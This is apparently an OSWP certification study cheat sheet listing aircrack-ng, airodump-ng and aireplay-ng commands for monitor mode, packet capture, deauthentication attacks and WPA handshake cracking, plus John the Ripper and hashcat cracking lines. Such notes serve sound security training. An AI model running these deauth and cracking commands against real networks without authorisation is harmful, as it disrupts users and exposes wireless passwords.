 # OSWP

## Aircrack-ng 
### Packet sniffer, network detector, frame injection, cracks WEP and WPA-PSK 
```
sudo airmon-ng check
sudo airmon-ng check kill

sudo /usr/sbin/airmon-ng
sudo airmon-ng start wlan0
sudo airmon-ng start wlan0 [channel #]
sudo airmon-ng stop wlan0

iw wlan0 info
iwconfig
ifconfig

```

## Airodump-ng 
### WEP, WPA/WPA2
#### Don't forget to specify interface
```
sudo airodump-ng wlan0mon -c 2
sudo airodump-ng -c 3 --bssid 34:08:04:09:3D:38 -w 1.cap
```
|CMD|DESC|
|-----|-----|
|-w|output filename| 
|--bsssid|specific BSSID|
|--essid|specific ESSID|
|-c|channel|
|-g|GPS|
|--ivs| Interval Vectors
|-R|Regular Expression|

## Aireplay-ng
### Generate wireless traffic, deauths, WEP
#### Set card to channel [#]
```
sudo airmon-ng start wlan0 # 
```
### Deauth
```
sudo aireplay-ng -0 10 -a 34:08:04:09:3D:38 wlan0mon
```
|CMD|DESC|
|-----|-----|
-0 |# deauths
0 | continuous
-a|BSSID
-c|client MAC

## Aircrack-ng
### Cracking Hashes
```
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap
```
### John the Ripper
```
john --format=netntlm timothy --wordlist=/usr/share/wordlists/rockyou.txt
```
### Hashcat
```
hashcat -m [hashtype] [hash] [dictionary]
```
## Useful Linux Commands
```
scp kali@192.168.10.94:/home/kali/1.cap-01.cap .
gzip -d file .gz
```
